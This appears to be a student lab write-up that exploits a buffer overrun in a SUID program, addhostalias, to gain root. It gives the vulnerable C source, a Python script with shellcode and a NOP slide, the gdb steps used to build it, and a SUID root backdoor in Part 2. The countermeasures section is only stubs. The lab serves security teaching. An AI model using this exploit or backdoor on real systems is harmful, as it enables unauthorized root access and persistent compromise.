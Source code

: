 # Language-based Security

## Lab 2 - Buffer Overrun

### Part 1 : Gaining root access

#### How does it work ?

In order to gain root access to this machine, we are going to use the `addhostalias` executable file, which seems to be vulnerable to buffer overruns. In order to exploit this, we are going to go through several steps :
- analyse the vulnerability in the code.
- use gdb to analyse how the program behaves according to the arguments that we give.
- find a way to exploit it. In our case, we will use Python which allows us to have our root shell more easily. Since it is a high level language, we can focus on the content of our malicious code instead of how to generate it.



First of all, let's have a brief explanation of how the stack works in this type of program. In order to maintain consistency during program execution, Linux OS stores everything that is necessary for the program to work in memory. This means it can push data in a stack, but also store addresses that point to other memory locations(for example when a function call is performed). The schema below tries to summarize the memory layout:

```
       0xffffffff

   4 bytes (32bits OS)
< --------------------->


 ----------------------
|   RETURN ADDRESS      | 
 ----------------------
|    BASE POINTER      |
 ---------------------- 
|                      |
|                      |
|                      |
|                      |
|                      |
|       STACK          |
|    (256 bytes)       |
|                      |
|                      |
|                      |
 ----------------------

       0x00000000

```


```c

#include <stdio.h>
#include <stdlib.h>
 
 
#define HOSTNAMELEN 256
#define IPADDR      1
#define HOSTNAME    2
#define ALIAS       3
 
#define HOSTFILE "/etc/hosts"
 
 
void add_alias(char *ip, char *hostname, char *alias) {
  char formatbuffer[256];
  FILE *file;
 
  sprintf(formatbuffer, "%s\t%s\t%s\n", ip, hostname, alias); // sprintf doesn't check if formatbuffer variable can be bound into 256 bytes, we are going to exploit this section
 
  file = fopen(HOSTFILE, "a");
  if (file == NULL) {
    perror("fopen");
    exit(EXIT_FAILURE);
  }
 
  fprintf(file, formatbuffer);
  if (fclose(file) != 0) {
    perror("close");
    exit(EXIT_FAILURE);
  }
}
 
 
int main(int argc, char *argv[]) {
  if (argc != 4) {
    printf("Usage: %s ipaddress hostname alias \n", argv[0]);
    exit(EXIT_FAILURE);
  }
 
  add_alias(argv[IPADDR], argv[HOSTNAME], argv[ALIAS]);
  return(0);
}

```

Then, our goal is to craft a python exploit that will fill the buffer with malicious code and overwrite the return address: 
- We have to inject inside the buffer the 256 bytes necessary to fully occupy it + 8 bytes to overwrite the base pointer and the return address.

```python
# run a shell on local machine
shellcode = ('\xb9\xff\xff\xff\xff\x31\xc0\xb0\x31\xcd\x80'
             +'\x89\xc3\x31\xc0\xb0\x46\xcd\x80\x31\xc0\xb0'
             +'\x32\xcd\x80\x89\xc3\xb0\x31\xb0\x47\xcd\x80'
             +'\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68'
             +'\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0'
             +'\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x90\x90\x90'
             +'\x90\x90\x90\x90\x90\x90\x90\x90\x90')


# NOP signal, tells the CPU to go to the next instruction
nop = '\x90'
nops = nop*181

# estimated area of the end of the stack
nop_adress = '\x10\xf9\xff\xbf'

# 181 (NOPs) + 75 (Shellcode) + 2 (separators between addhostalias arguments) + 2 (last 2 bytes for base pointer occupied by 2 NOPs)+ 4 (return address) = 264 bytes of data (instead of 256, so it will overwrite the base pointer and the return address)
print nops+shellcode,nop*2,nop_adress


```

#### How did we create our exploit ?


![How to use GDB to craft our exploit](/assets/lab2/gdb-demo.png)

- `gdb --args addhostalias $(python r00t.py)` entering debug mode for our program.
- `(gdb) break fopen` place a break point to stop the program's execution when fopen function is called. In our case it will stop just after the buffer has been written to memory.
- `(gdb) run` run the program until it finishes or when a breakpoint is reached.
- `(gdb) x/100x $sp` display 100 current words in our memory where the stack pointer is located. This allows us to analyse the current stack state once our buffer is written with our three arguments.


![Steps of our buffer overflow](/assets/lab2/buffer-overflow.png)


```

 ----------------------
<<<<<<< HEAD
|   RETURN ADDRESS      | <------- now redirects approximately to the end of the stack (in the NOP slide inserted inside the buffer)
 ----------------------
|    BASE POINTER      | <------- not important in our case, but it is now overwritten with NOPs
 ---------------------- 
|                      |
|       MALICIOUS      |
|         CODE         |
|                      |
|         ...          |
|         NOP          |
|         NOP          |
|         NOP          |
 ----------------------

```

The SUID bit is set, so the program is vulnerable. When a user runs this program, his EUID (effective user id) becomes the same as root. This is necessary to have the possibility to edit the /etc/hosts file, which root only has the right to write to. In this case, The SUID bit is mandatory in order for `addhostalias` to work properly.

`addhostalias $(python r00t.py)`

Allows to gain root access using our python script.

The SUID bit configured on `addhostalias` gives us the opportunity to execute the commands described in the shellcode with the necessary root permissions. These instructions allow us to launch a root shell after the execution of the program. If we didn't set the real used id and the real group id as the effective user id (root) during the execution of the program, we would lose our root permissions before entering the called shell and have access to a normal user's shell instead.


### Part 2 : Create a Backdoor

Once we have access to a root shell, we need to create a backdoor in order to be able to log as root easily the next time we need to.
To do that, all we need is to create a c file called `backdoor.c`for exemple:

```c 
#include<stdlib.h>
main () {
setuid(0);
system("/bin/bash");
}
```

Then we need to compile it with gcc: `gcc -o backdoor backdoor.c`.
Finally, we have to set the suid bit: `chmod u+s backdoor` and verify that group and others have the execute permission.

Now, when we execute`./backdoor` with the user dvader, we gain access to a root shell.

### Part 3 : Countermeasures

- Canaries : ...
- NX bit : ...
- ASLR : ...


### Sources that helped us gaining root access on the machine

1. [Buffer Overflow Attack, Computerphile](https://www.youtube.com/watch?v=1S0aBV-Waeo&t=589s)
2. [GDB Petit Tutoriel, Daniel Hirschkof](http://perso.ens-lyon.fr/daniel.hirschkoff/C_Caml/docs/doc_gdb.pdf)
3. [Le Débogueur GDB, Anne Canteaut](https://www.rocq.inria.fr/secret/Anne.Canteaut/COURS_C/gdb.html)






